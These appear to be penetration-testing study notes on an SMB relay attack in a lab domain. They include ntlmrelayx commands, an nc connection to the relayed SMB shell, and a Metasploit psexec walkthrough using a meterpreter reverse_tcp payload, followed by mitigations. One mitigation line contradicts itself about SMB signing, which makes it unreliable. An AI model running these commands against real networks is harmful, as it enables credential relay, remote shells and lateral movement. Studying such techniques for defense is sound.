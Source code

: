 - starting interactive relay
```bash
ntlmrelayx.py -tf targets.txt -smb2support -i #i = interactive
```
- new listener tab >> use port from relay tab
```bash
nc 127.0.0.1 11000 #port 11000 from interactive relay tab
help #commands for SMB shell

#we are in, so can execute whatever commands we want now
```
interactive shell options for to exploit:
```bash
ntlmrelayx.py -tf targets.txt -smb2support -i -e test.exe #e = execute, can setup meterpreter listener and an exe payload in msfvenom

ntlmrelayx.py -tf targets.txt -smb2support -i -c #executes commands when we run the machine, can be a powershell script to give us shell
```

## SMB Relay Attack Defenses
**Mitigation Strategies**
SMB signing should be disabled and local admin restricted
- enable SMB signing on all devices
	- pros - completely stops attack
	- con - can cause performance issues with file copies
- disable NTLM authentication on network
	- pro: completely stops attack
	- cons: if kerberos stops working, windows defaults back to NTLM
- account tiering:
	- pro - limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
	- con - enforcing the policy may be difficult
- local admin restriction:
	- pro - can prevent a lot of lateral movement
	- con - potential increase in the amount of service desk tickets

## Gaining Shell Access
now that we have a credential from SMB, what can we do?
Try different tools for exploit:
1. metasploit psexec
```bash
msfconsole
search psexec
use 10
set rhost [target IP]
set smbdomain marvel.local
set smbpass Password1
set smbuser fcastle
options # check

#need to run with appropriate payload
set payload windows/x64/meterpreter/reverse_tcp
options #check
set lhost eth0
run
#may need to try more than once, if not working need to tweak
show targets
set target 2 #select from list
run
```
